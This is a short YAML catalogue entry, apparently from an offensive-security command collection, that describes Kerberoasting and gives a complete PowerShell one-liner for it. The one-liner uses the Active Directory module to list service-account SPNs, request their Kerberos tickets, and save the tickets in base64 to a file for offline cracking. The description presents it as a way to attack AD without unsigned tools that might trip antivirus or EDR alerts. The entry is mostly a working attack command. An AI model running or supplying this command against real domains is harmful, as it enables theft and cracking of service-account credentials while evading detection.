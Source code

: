 ```yaml
---
description: |
  Kerberoasting is the act of requesting service tickes for accounts that have an SPN set, and then attempting to crack those hashes offline. 
  This one liner using the powershell AD module serves less as a feasiable attack and more as a PoC that the AD module with some ingenuity
  can be used to exploit many vectors within AD that you otherwise import tools that are not signed, need obfiscation, require AV/EDR bypass or other
  steps that may trigger alerts.

command: |
  Get-ADUser -Filter {ServicePrincipalName -ne "$null" -and Enabled -eq $true} -Properties ServicePrincipalName | select -ExpandProperty ServicePrincipalName | % { $spn = $_; Add-Type -AssemblyName System.IdentityModel; $ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn; $ticketBytes = $ticket.GetRequest(); $ticketBase64 = [System.Convert]::ToBase64String($ticketBytes); $account = (Get-ADUser -Filter {ServicePrincipalName -eq $spn} -Properties SamAccountName).SamAccountName; Write-Output "===== $account : $spn =====`n$ticketBase64" } | Out-File -FilePath "kerberos_tickets.txt" -Encoding ASCII

items:
  - powershell
services:
  - Kerberos
OS:
  - Windows

attack_types:
  - Exploitation
references:
  - https://github.com/samratashok/ADModule

---
```

